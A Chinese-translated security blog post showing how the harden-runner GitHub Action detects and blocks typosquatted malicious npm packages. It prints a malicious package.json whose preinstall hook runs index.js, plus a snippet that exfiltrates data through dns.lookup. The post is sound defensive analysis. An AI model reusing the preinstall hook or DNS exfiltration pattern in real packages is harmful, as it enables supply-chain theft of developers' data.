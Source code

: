 # 检测 GitHub 操作中的恶意软件包

> 原文：<https://infosecwriteups.com/detecting-malware-packages-in-github-actions-7b93a9985635?source=collection_archive---------3----------------------->

[step-security/harden-runner](https://github.com/step-security/harden-runner)GitHub Action 在 GitHub 托管的 runner (Ubuntu VM)上安装安全代理来监控构建过程。该代理监视每个步骤的进程、文件和网络活动，并可用于将出站网络呼叫限制到允许的端点。

最近几个恶意软件包被[发布](https://www.techradar.com/news/microsoft-azure-developers-targeted-with-flood-of-malicious-npm-packages)到 NPM 注册表。在这篇博文中，我将通过 harden-runner 的监控镜头向你展示这些包的行为。

为了分析它们的行为，两个恶意包作为依赖项被添加到 package.json 文件中。在真实的场景中，开发人员可能会无意中在他们的应用程序中使用这些恶意的包，而他们本打算使用不同的包。这叫**包** **错别字**。例如 core-client-rest，恶意包的名称类似于合法包@azure/core-client。

```
{
  "name": "npmtest",
  "version": "1.0.0",
  "description": "",
  "main": "test.js",
  "dependencies": {
    **"core-client-rest": "99.10.9",
    "dazaar-cli": "99.10.9"**
  }
}
```

GitHub Actions 工作流程的第一步是[step-security/harden-runner](https://github.com/step-security/harden-runner)。harden-runner 被配置为只允许对 github.com(下载代码)和 registry.npmjs.org(下载依赖项)的出站调用。然后，工作流在最后一步运行 **npm install** 。您可以以这种方式使用 harden-runner 来执行行为分析，并检测工作流中的恶意依赖关系。

```
name: npm_ci
on: [push, pull_request, workflow_dispatch]jobs:
  test:
    runs-on: ubuntu-lateststeps:
      - uses: step-security/harden-runner@v1
        with:
          egress-policy: block
          allowed-endpoints: >
            **github.com:443
            registry.npmjs.org:443**
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v1
        with:
          node-version: "16"
      - run: **npm install**
```

在正常情况下，出站呼叫只会被发送到允许的端点。**不过，在这种情况下，会发出、检测并阻止额外的出站呼叫**。如果没有使用 harden-runner，该恶意软件就会成功渗透敏感数据。然而，harden-runner 阻止了这种情况的发生，并捕获了恶意软件。你可以在这里看到实际的 GitHub Actions 工作流程。

![](img/74eda6ed8d8027b4a0304163e0db7862.png)

step-security/harden-runner GitHub 处理措施检测并阻止了来自恶意软件包的出站呼叫

这些出站调用是因为恶意软件包正在运行预安装步骤，该步骤正在执行 JavaScript 代码以进行出站调用。这是一个恶意软件包的 package.json。它有一个运行 index.js 的预安装步骤

```
{
 "name": "core-client-rest",
 "version": "99.10.9",
 "description": "azbit package",
 "main":"index.js",
 "scripts":{
 "test":"echo 'error no test specified' && exit 1",
 "**preinstall**":"node index.js"
 },
"author":"",
"License":"ISC"
}
```

有趣的是，对超长域的第一个调用是 DNS 渗漏调用。恶意软件包的 index.js 文件中的这段代码使用 **dns.lookup** 来过滤数据。DNS 渗透是一种常见的逃避检测的技术。

```
var qs = toName(td);if(isValid(td.hn,td.c,td.un,td.dirs)){for(var j=0;j<qs.length;j++){**dns.lookup**(qs[j], function(err, result) {//console.log(result)});}
```

[step-security/harden-runner](https://github.com/step-security/harden-runner)除了通过发送到 TCP/ UDP 的流量，GitHub 操作还可以检测 DNS 渗透企图。代理在临时虚拟机上运行 DNS 代理，以监控和阻止 DNS 流量。这就是 DNS 渗透尝试被阻止的原因，也是注释显示“*域名的 DNS 解析被阻止*”的原因

您可以使用 SupplyChainGoat 的[依赖关系行为分析](https://github.com/step-security/supply-chain-goat/blob/main/CompromisedDependency.md)中的实践教程来尝试这些步骤。[supplychaingaot](https://github.com/step-security/supply-chain-goat)有实践教程来学习软件供应链安全。本教程使用了一个恶意软件模拟器包，而不是使用实际的恶意软件包，这些恶意软件包现在已经从 NPM 注册表中删除了。

如果您有任何问题或反馈，请使用[https://www . step security . io](https://www.stepsecurity.io)联系我们